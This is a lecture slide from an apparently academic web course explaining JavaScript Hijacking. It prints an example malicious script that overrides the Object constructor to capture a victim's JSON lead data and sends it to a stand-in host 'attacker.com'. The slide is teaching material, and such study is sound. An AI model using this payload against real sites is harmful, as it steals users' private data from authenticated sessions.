

# Javascript Hijacking Example (cont..)
Other users cannot access this information without knowing the user's session identifier (stored as cookie). However, if a victim visits a malicious website, the malicious site can retrieve the information using JavaScript Hijacking.
If a victim can be tricked into visiting a Web page that contains the following malicious code, the victim's lead information will be sent to the attacker's Web site.
<script>
// override the constructor used to create all objects so // that whenever the "email" field is set, the method // captureObject() will run. Since "email" is the final field,  this will allow us to steal the whole object.
function Object() {
	this.email setter = captureObject;
}
// Send the captured object back to the attacker's Web site
function captureObject(x) {
	var objString = "";
	for (fld in this) {
		objString += fld + ": " + this[fld] + ", ";
	}
	objString += "email: " + x;
	var req = new XMLHttpRequest();
	req.open("GET", "http://attacker.com?obj=" + escape(objString),true);
	req.send(null);
}
</script><!-- Use a script tag to bring in victim's data -->
<script src="http://www.example.com/object.json"></script>
42
Copyright (c) 2009-2016  Arun Viswanatha, Ellis Horowitz, Marco Papa